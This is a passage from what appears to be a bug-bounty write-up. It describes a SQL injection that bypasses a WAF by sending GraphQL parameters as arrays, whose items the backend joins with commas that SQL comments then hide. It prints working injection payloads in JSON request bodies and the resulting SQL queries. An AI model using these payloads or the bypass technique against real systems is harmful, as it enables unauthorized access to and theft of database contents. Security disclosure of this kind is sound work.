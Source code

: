 into this
{% highlight json %}
...
 "email":["a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT column1", "FROM table1 LIMIT 1 OFFSET 0),1))))AND('a'='a"]}
}
{% endhighlight %}

<p>
The request bypassed the WAF and I got an error back from the database, complaining about a malformed SQL query and showing me
the full resulting SQL query. The query at the injection point looked like this:

{% highlight sql %}
...
LOWER(t1.email) = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT column1, FROM table1 LIMIT 1 OFFSET 0),1))))AND('a'='a')
...
{% endhighlight %}
</p>

<p>
Notice the comma (,) right after <b>SELECT column1</b>? That was my golden ticket out of the SQLi-filtering hell.
Passing the value of the GraphQL query parameter as an array is translated as a string in the backend SQL server. The string
is simply the concatenation of the array's items separated by a comma and a space character! The SQL query was malformed at this point, but I could
comment out the commas and have a valid, WAF-bypassing request, that retrieved whatever data I wanted from
whichever database table I chose to!
</p>

<p>
This is the body of the final POST request:
</p>
{% highlight json %}
...
 "email":["a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT column1/*", "*/FROM table1 LIMIT 1 OFFSET 0),1))))AND('a'='a"]}
}
{% endhighlight %}

and the resulting valid SQL query on the SQL server:

{% highlight sql  %}
SELECT t1.*
FROM table1 AS t1 LEFT JOIN table2 AS t2
	ON t2.id = t1.id
	AND t2.q_id IN (1, 2, 3, 4)
	AND t2.input = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT column1/*, */ FROM table1 LIMIT 1 OFFSET 0),1))))AND('a'='a')
WHERE 
	t1.deleted_at IS NULL
	AND t1.name = $1
	AND (
		LOWER(t1.email) = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT column1/*, */ FROM table1 LIMIT 1 OFFSET 0)),1))))AND('a'='a')
		OR LOWER(t2.input) = LOWER('a@b.c')OR(t2.id = t1.id)AND(t2.q_id IN (1, 2, 3, 4))AND('a'=(SELECT(right((SELECT column1/*, */ FROM table1 LIMIT 1 OFFSET 0)),1))))AND('a'='a')
	);
{% endhighlight %}


[cf-hof]: https://hackerone.com/gskourou
[owasp-sql]:    https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
